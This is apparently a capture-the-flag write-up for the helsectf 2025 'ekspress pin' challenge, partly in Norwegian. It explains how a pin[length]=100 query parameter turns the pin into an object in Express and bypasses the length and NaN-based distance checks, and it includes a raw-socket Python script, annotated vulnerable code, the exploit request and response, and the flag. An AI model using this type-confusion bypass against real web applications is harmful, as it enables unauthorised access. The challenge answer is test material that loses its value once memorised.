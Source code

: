 # ekspress pin

Bare å gjette den hemmelige pinkoden, jeg gir deg til og med litt hjelp. Om du får til å levere den er et annet spørsmål.

*OBS:* Hvis HTTP 431 returneres er det en del av oppgaven, og ikke feil.

[🔗 https://helsectf2025-42694257c6fdb3976dd6-express-pin.chals.io/?pin=1234"](https://helsectf2025-42694257c6fdb3976dd6-express-pin.chals.io/?pin=1234")

[⬇️ oppgave.zip](./oppgave.zip)

# Writeup

Started by creating a script which resolved one number at a time, but that quickly stopped me due to the limited amount of bytes. Then I tried to get down to as few bytes as possible, by sending raw HTTP/0.9 request which requires no headers, just a `GET /?pin=num\r\n`. Somehow that still only gave me 99 characters.

```python
import socket, ssl

host = ("helsectf2025-42694257c6fdb3976dd6-express-pin.chals.io", 443)

pin = b"0"*99
request = b"GET /?pin="+pin+b"\r\n\r\n"
context = ssl.create_default_context()
s = socket.create_connection(host)
ssl_sock = context.wrap_socket(s, server_hostname=host[0])
ssl_sock.sendall(request)
response = ssl_sock.recv(4096)
ssl_sock.close()

# Receiving
print("> " + response.decode().replace("\n", "\n> "))
```

I could not figure out, it seems like the `\r\n` and `GET ` did not count. Not understanding what it is, even reading NodeJS source code I finally got an bright light when googling `Express Query Quirks` and finding [this](https://evanhahn.com/gotchas-with-express-query-parsing-and-how-to-avoid-them/) reminding me how express parses query strings. 

After reading the `app.js` source I see that all I really need to do is to create a object to bypass the checks, and making a object `pin['length'] = 100` will do exactly that. 

```js
const pin = { length: 100 }

// pin is not undefined as it is an "Object"
if (pin == undefined) {
  res.send("Gi en pinkode ved å bruke for eksempel <a href='/?pin=1234'>?pin=1234</a>")
  return
}

// I've manually set `length` to be 100, so it is not bigger than 100.
if (pin.length > hemmeligPin.length) {
  res.send("Pin er for lang")
  return
}

// This will loop throught pin[0], to pin[99] which will all resolve to `undefined``
// `undefined > '9' or < '0'` will be false, so it will not fail the only numbers check.
// parseInt(undefiend) == NaN, and NaN - any number will be NaN. (Not A Number). abs(NaN) == NaN
var distanse = 0
for (var i = 0; i < pin.length; i++) {
  if (pin[i] > '9' || pin[i] < '0') {
    res.send("Pin skal kun være siffer")
    return
  }
  distanse += Math.abs(parseInt(pin[i]) - parseInt(hemmeligPin[i]))
}

// Since `distance` will be `NaN`and `NaN > 0` will be false, it will not fail the distance check.
if (distanse > 0){
  res.send(`Pinkoden var feil, med en distanse på ${distanse}`)
  return
}

// pin.length I've hardcoded to be 100 so it will not fail the length check.
if (pin.length != hemmeligPin.length) {
  res.send("Alle de gitte sifrene var korrekte, men pinkoden har feil lengde")
  return
}
```

and with [solve.py](./solve.py) I got the flag!! :D 

```s
> GET /?pin[length]=100
> 
> 
> HTTP/1.1 200 OK
> X-Powered-By: Express
> Content-Type: text/html; charset=utf-8
> Content-Length: 91
> ETag: W/"5b-f3v0ndbRX56cBnmarR1wpG1ZKf0"
> Date: Sun, 23 Feb 2025 05:06:05 GMT
> Connection: close
> 
> Gratulerer, du har funnet pinkoden! Her er flagget: helsectf{3r_j4v4scr1pt_3t_3kt3_språk?}
```

# Flag

```
helsectf{3r_j4v4scr1pt_3t_3kt3_språk?}
```